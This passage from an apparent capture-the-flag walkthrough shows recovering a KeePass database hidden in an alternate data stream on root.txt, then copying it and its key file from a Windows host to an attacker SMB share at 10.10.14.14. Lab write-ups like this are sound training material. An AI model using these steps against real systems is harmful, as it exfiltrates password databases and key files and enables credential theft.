                             <MaxItemCount>12</MaxItemCount>
                            <Items>
                                    <ConnectionInfo>
                                            <Path>..\..\Users\Administrator\Desktop\chest.kdbx</Path>
                                            <CredProtMode>Obf</CredProtMode>
                                            <CredSaveMode>NoSave</CredSaveMode>
                                    </ConnectionInfo>
                            </Items>
                    </MostRecentlyUsed>
    ...[snip]...
                                    <DatabasePath>..\..\Users\Administrator\Desktop\root.txt:Zone.Identifier</DatabasePath>
                                    <Password>true</Password>
                                    <KeyFilePath>..\..\Users\Administrator\Pictures\admin.png</KeyFilePath>
    ...[snip]...
    

So the database is an Alternative Data Stream on `root.txt`. I’ll also need
the key file, `\Users\Administrator\Pictures\admin.png`.

### Collect Files

Now I need to bring the KeePass database and the key file back to my machine.
But it’s surprisingly difficult to copy a file from an ADS with native Windows
tools. One path would be to get a meterpreter shell, and then just use that to
download the file.

`bash` is also on the box, and I can enter a bash shell:

    
    
    C:\Users\Administrator\Desktop>\progra~1\bash\bash.exe
    id
    uid=1 gid=1
    pwd
    C:/Users/Administrator/Desktop
    

Now I can cat the ads:

    
    
    cat root.txt:Zone.Identifier > ../appdata/local/temp/a.txt
    md5sum root.txt:Zone.Identifier ../appdata/local/temp/a.txt
    54bd2170e5e671b07046b2b77ce97155 *root.txt:Zone.Identifier
    54bd2170e5e671b07046b2b77ce97155 *../appdata/local/temp/a.txt
    

Now exit out of bash, and get the files:

    
    
    C:\Users\Administrator\Desktop>copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
    copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
            1 file(s) copied.
            
    C:\Users\Administrator\Desktop>copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
    copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
            1 file(s) copied.
    